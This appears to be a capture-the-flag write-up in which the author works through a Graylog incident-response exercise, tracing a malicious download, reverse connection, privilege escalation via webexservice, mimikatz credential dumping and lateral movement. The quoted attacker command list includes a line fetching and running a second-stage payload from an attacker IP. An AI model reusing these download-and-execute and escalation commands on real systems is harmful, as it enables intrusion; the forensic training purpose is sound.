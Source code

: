 ```yaml
---
layout: elf
title: "Graylog"
#date: 2018-12-03
#image: "challenge.md"
question: "Fill out incident response report"
answer: ""
#terminal-hint: "Describe the hints from the terminal"
images: ["1.png"]
#narrative: "1"
elf-name: "Pepper Minstix"
elf-directory: "pepper"
tags: [sample post, readability, test]
comments: false
image-dir: /assets/img/elves/pepper
links: [http://docs.graylog.org/en/3.1/pages/queries.html,]
location: Dorm
comments: false
---
```


Need to fill out an incident reponse ticket on Graylog.

Search in All Messages
username and password are "elfustudent"


<figure>
	<img src="/assets/img/elves/pepper/question.jpg">
	<figcaption>Holly Question</figcaption>
</figure>

There are a set of questions that have to be answered
Question 1:
Minty CandyCane reported some weird activity on his computer after he clicked on a link in Firefox for a cookie recipe and downloaded a file.

What is the full-path + filename of the first malicious file downloaded by Minty?

NOTE: Previous searches are in the search box.  cookie_recipe.exe is one of them.  This is likely the answer

c:\Users\minty\Downloads\cookie_recipe.exe

looks like it was downloaded from super_secret_elfu_research.pdf

<figure>
	<img src="/assets/img/elves/pepper/q1.jpg">
	<figcaption>Question 1</figcaption>
</figure>

Second question asks for the ip and port that cookie_recipe.exe tried to connect to. 

Searching for cookie_recipe.exe, found a web request
192.168.247.175:4444


<figure>
	<img src="/assets/img/elves/pepper/q2-answer.jpg">
	<figcaption>Question2</figcaption>
</figure>

What is the first command executed by the attacker

Looking at all the programs spawned by cookie_recipe, there is a PID of 5256
Looking for all ParentPID of 5256, found the first command, whoami

<figure>
	<img src="/assets/img/elves/pepper/q3-answer.jpg">
	<figcaption>Question2</figcaption>
</figure>

The following are all the commands

* whoami
* ls
* ls c:\
* sc query type=service
* Get-Service
* cmd /c sc query type=service
* Invoke-WebRequest-URI http://192.168.247.1.75/cookie_recipe2.exe -Outfile cookie_recipe2.exe
* ls
* ./cookie_recipe2.exe
* ls
* sc start webexservice a software-update 1 wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe"
* cmd.exe /c sc start webexservice a software-update 1 wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe"
* ls
* exit

<figure>
	<img src="/assets/img/elves/pepper/q3.jpg">
	<figcaption>Question3</figcaption>
</figure>

The one word service name for priv escalation is webexservice

<figure>
	<img src="/assets/img/elves/pepper/q4.jpg">
	<figcaption>Question4</figcaption>
</figure>

Find the filename of the executable used to dump credentials.  I tried to look for EventID of 10, but no luck

So I just looked for all text with "mimikatz".  Found c:\cookie.exe executing

<figure>
	<img src="/assets/img/elves/pepper/q5.jpg">
	<figcaption>Question5</figcaption>
</figure>

Question 6, I have to find what account was used to pivot to Minty's computer

Filter: EventID: "4647"
<figure>
	<img src="/assets/img/elves/pepper/q6-1.jpg">
	<figcaption>Finding the logon</figcaption>
</figure>

The "alabaster" user account worked

<figure>
	<img src="/assets/img/elves/pepper/q6.jpg">
	<figcaption>Finding the logon</figcaption>
</figure>

Question 7 - What time was the successful login.
The 4647 was a logoff.  Need to now find when the logon occurred

Filter: LogonType:"10"
There were 4 logon attempts.  The forth one was correct
06:04:28
<figure>
	<img src="/assets/img/elves/pepper/q7.jpg">
	<figcaption>Finding logon time</figcaption>
</figure>

Question 7 - Finding the browsing of file, is likely SMB

Filtered timestamps between the login and logouts
Then, looked for everything that had an existing logontype
_exists_:LogonType

Then, just looked for a change in source and dest hostnames

ELFU-RES-WKS2,ELFU-RES-WKS3,3
<figure>
	<img src="/assets/img/elves/pepper/q8.jpg">
	<figcaption>Finding the third</figcaption>
</figure>

Question 9 - What is the name of the super secret file
I crafted a filter to look for pdf's
/.+\.pdf.+/
<figure>
	<img src="/assets/img/elves/pepper/q9.jpg">
	<figcaption>The File</figcaption>
</figure>

Question 10 - What is the IP of the destination.

Looking at the event above, I used graylog to tell me the events surrounding by 5 seconds
<figure>
	<img src="/assets/img/elves/pepper/q10.jpg">
	<figcaption>Pastbin</figcaption>
</figure>


Answer the report I get the final message
<figure>
	<img src="/assets/img/elves/pepper/answer.jpg">
	<figcaption>answer</figcaption>
</figure>

<figure>
	<img src="/assets/img/elves/pepper/riddle.jpg">
	<figcaption>Riddle</figcaption>
</figure>
